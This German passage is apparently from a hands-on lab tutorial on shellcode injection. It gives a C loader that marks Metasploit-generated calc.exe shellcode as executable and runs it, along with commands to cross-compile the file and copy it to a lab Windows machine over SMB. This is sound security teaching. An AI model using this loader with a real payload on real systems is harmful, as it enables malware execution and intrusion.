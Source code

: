 Als Ergebnis generiert das Metasploit-Framework einen Shellcode, der den Windows-Rechner (calc.exe) ausführt. Der Windows-Rechner wird häufig als Beispiel im Malware-Entwicklungsprozess verwendet, um einen Proof of Concept zu zeigen. Wenn die Technik funktioniert, öffnet sich eine neue Instanz des Windows-Rechners. Dies bestätigt, dass jeder ausführbare Shellcode mit der verwendeten Methode funktioniert.

### Shellcode-Injektion

Hacker injizieren Shellcode in einen laufenden oder neuen Thread und Prozess mithilfe verschiedener Techniken. Shellcode-Injektionstechniken ändern den Ausführungsfluss des Programms, um Register und Funktionen des Programms zu aktualisieren und den eigenen Code des Angreifers auszuführen.

Lassen Sie uns nun den generierten Shellcode weiterverwenden und ihn im Betriebssystem ausführen. Hier ist ein C-Code mit unserem generierten Shellcode, der in den Speicher injiziert und “calc.exe” ausgeführt wird.

Auf der AttackBox speichern wir das Folgende in einer Datei namens `calc.c`:
```C
#include <windows.h>
char stager[] = {
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00" };
int main()
{
        DWORD oldProtect;
        VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
        int (*shellcode)() = (int(*)())(void*)stager;
        shellcode();
}
```

Jetzt kompilieren wir sie als Exe-Datei:
```shell
user@AttackBox$ i686-w64-mingw32-gcc calc.c -o calc-MSF.exe
```

Sobald wir unsere EXE-Datei haben, übertragen wir sie auf die Windows-Maschine und führen sie aus. Um die Datei zu übertragen, können Sie smbclient von Ihrer AttackBox aus verwenden, um auf den SMB-Share unter \10.10.169.114\Tools zuzugreifen. Verwenden Sie dazu die folgenden Befehle (denken Sie daran, dass das Passwort für den Benutzer “thm” Password321 lautet):
```shell
user@AttackBox$ smbclient -U thm '//CUSTOM-IP/Tools'
smb: \> put calc-MSF.exe
```
